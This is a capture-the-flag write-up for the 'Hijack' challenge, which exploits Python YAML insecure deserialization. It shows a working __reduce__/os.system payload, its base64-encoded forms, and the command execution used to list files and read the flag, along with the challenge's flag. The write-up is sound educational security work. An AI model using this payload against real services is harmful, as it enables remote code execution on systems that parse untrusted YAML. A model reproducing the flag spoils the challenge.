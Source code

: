 # Hijack

## Overview

- Overall difficulty for me (From 1-10 stars): ★★☆☆☆☆☆☆☆☆

## Background

The security of the alien spacecrafts did not prove very robust, and you have gained access to an interface allowing you to upload a new configuration to their ship's Thermal Control System. Can you take advantage of the situation without raising any suspicion?

![](https://github.com/siunam321/CTF-Writeups/blob/main/Cyber-Apocalypse-2023/images/Pasted%20image%2020230319173707.png)

## Find the flag

**In this challenge, we can `nc` to the instance machine:**
```shell
┌[siunam♥earth]-(~/ctf/Cyber-Apocalypse-2023/Misc/Hijack)-[2023.03.19|17:37:31(HKT)]
└> nc 159.65.81.51 31087

<------[TCS]------>
[1] Create config
[2] Load config
[3] Exit
> 
```

In here, we can "Create config" and "Load config".

**Create config:**
```shell
<------[TCS]------>
[1] Create config
[2] Load config
[3] Exit
> 1

- Creating new config -
Temperature units (F/C/K): F
Propulsion Components Target Temperature : 69
Solar Array Target Temperature : 96
Infrared Spectrometers Target Temperature : 420
Auto Calibration (ON/OFF) : ON  

Serialized config: ISFweXRob24vb2JqZWN0Ol9fbWFpbl9fLkNvbmZpZyB7SVJfc3BlY3Ryb21ldGVyX3RlbXA6ICc0MjAnLCBhdXRvX2NhbGlicmF0aW9uOiAnT04nLAogIHByb3B1bHNpb25fdGVtcDogJzY5Jywgc29sYXJfYXJyYXlfdGVtcDogJzk2JywgdW5pdHM6IEZ9Cg==
Uploading to ship...


<------[TCS]------>
[1] Create config
[2] Load config
[3] Exit
> 
```

Based on my experience, the last 2 characters are `=`, which is a base64 encoded string.

Also, the output said: "***Serialized*** config"

**Let's try to base64 decode that:**
```shell
┌[siunam♥earth]-(~/ctf/Cyber-Apocalypse-2023/Misc/Hijack)-[2023.03.19|17:36:21(HKT)]
└> echo 'ISFweXRob24vb2JqZWN0Ol9fbWFpbl9fLkNvbmZpZyB7SVJfc3BlY3Ryb21ldGVyX3RlbXA6ICc0MjAnLCBhdXRvX2NhbGlicmF0aW9uOiAnT04nLAogIHByb3B1bHNpb25fdGVtcDogJzY5Jywgc29sYXJfYXJyYXlfdGVtcDogJzk2JywgdW5pdHM6IEZ9Cg==' | base64 -d
!!python/object:__main__.Config {IR_spectrometer_temp: '420', auto_calibration: 'ON', propulsion_temp: '69', solar_array_temp: '96', units: F}
```

Again, based on my experience, the decoded string is a ***Python's YAML library's serialized data***.

**According to [HackTricks](https://book.hacktricks.xyz/pentesting-web/deserialization/python-yaml-deserialization#rce), we can gain RCE (Remote Code Execution) on the instance machine!**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Cyber-Apocalypse-2023/images/Pasted%20image%2020230319174054.png)

**With that said, let's copy and paste that payload, and generate a base64 encoded serialized YAML data:**
```py
import yaml
from yaml import UnsafeLoader, FullLoader, Loader
import os
import base64

class Payload(object):
    def __reduce__(self):
        return (os.system,('ls',))

deserialized_data = yaml.dump(Payload()) # serializing data
print(base64.b64encode(deserialized_data.encode('utf-8')).decode())
```

```shell
┌[siunam♥earth]-(~/ctf/Cyber-Apocalypse-2023/Misc/Hijack)-[2023.03.19|17:45:27(HKT)]
└> python3 solve.py
ISFweXRob24vb2JqZWN0L2FwcGx5OnBvc2l4LnN5c3RlbQotIGxzCg==
```

When the YAML data is deserialized, the instance machine will try to run class `Payload`, and **the magic method `__reduce__` will be automatically invoked**, which will then executing OS command.

**Let's load that config!**
```shell
<------[TCS]------>
[1] Create config
[2] Load config
[3] Exit
> 2

Serialized config to load: ISFweXRob24vb2JqZWN0L2FwcGx5OnBvc2l4LnN5c3RlbQotIGxzCg==
chall.py
flag.txt
hijack.py
** Success **
Uploading to ship...
```

Boom! We can confirm **it's vulnerable to Python's YAML insecure deserialization**.

**Let's read the flag!**

**Payload:**
```py
return (os.system,('cat flag.txt',))
```

```shell
┌[siunam♥earth]-(~/ctf/Cyber-Apocalypse-2023/Misc/Hijack)-[2023.03.19|17:50:00(HKT)]
└> python3 solve.py
ISFweXRob24vb2JqZWN0L2FwcGx5OnBvc2l4LnN5c3RlbQotIGNhdCBmbGFnLnR4dAo=
```

```shell
<------[TCS]------>
[1] Create config
[2] Load config
[3] Exit
> 2

Serialized config to load: ISFweXRob24vb2JqZWN0L2FwcGx5OnBvc2l4LnN5c3RlbQotIGNhdCBmbGFnLnR4dAo=
HTB{1s_1t_ju5t_m3_0r_iS_1t_g3tTing_h0t_1n_h3r3?}
** Success **
Uploading to ship...
```

- **Flag: `HTB{1s_1t_ju5t_m3_0r_iS_1t_g3tTing_h0t_1n_h3r3?}`**

## Conclusion

What we've learned:

1. Insecure Deserialization In Python's YAML Library